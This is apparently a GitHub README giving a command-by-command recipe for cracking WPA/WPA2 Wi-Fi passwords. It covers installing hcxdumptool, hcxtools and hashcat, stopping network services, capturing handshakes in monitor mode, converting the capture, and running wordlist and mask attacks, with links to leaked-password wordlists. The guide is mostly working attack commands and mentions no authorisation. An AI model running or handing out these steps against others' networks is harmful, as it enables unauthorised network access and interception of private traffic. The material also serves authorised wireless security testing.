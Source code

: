 # Attacking WAP and WAP2 Wireless Networks Using Hcxdumptool and Hashcat

## Installation

Hcxdumptool

`sudo apt-get install hcxdumptool`

Hcxpcapngtool

`sudo apt-get install hcxtools`

Hashcat

`sudo apt-get install hashcat`

## Commands

Stop Services

```
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service
```

Monitor and Capture

hcxdumptool will begin capturing wireless network traffic on the specified interface and write it to the output file in pcapng format. The captured traffic will include active beacon monitoring and additional status information for access points and stations.

`sudo hcxdumptool -i wlan0 -o dumpfile.pcapng –active_beacon –enable_status=15`

- "-i wlan0" specifies the wireless interface to use for capturing traffic. In this case, it's "wlan0".
- "-o dumpfile.pcapng" specifies the output file name and format for the captured traffic. In this case, it's "dumpfile.pcapng".
- "-active_beacon" enables active beacon monitoring, which means that hcxdumptool will send out probe requests to nearby access points and capture their responses.
- "-enable_status=15" enables additional information in the captured packets, including information about the access points and stations.


Start Services
```
sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service
```

Convert a pcapng file (captured wireless network traffic) into a hashcat compatible format 

```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```



## Cracking

Wordlist attack with hashcat on Linux

```
hashcat -m 22000 hash.hc22000 wordlist.txt
```


Mask attack with hashcat on Windows

```
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat.exe -m 22000 hash.hc22000 -a 3 –increment –increment-min 8 –increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d 

```

## Wordlists 

https://raw.github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt


## Tutorial 

https://www.youtube.com/watch?v=Usw0IlGbkC4&ab_channel=DavidBombal
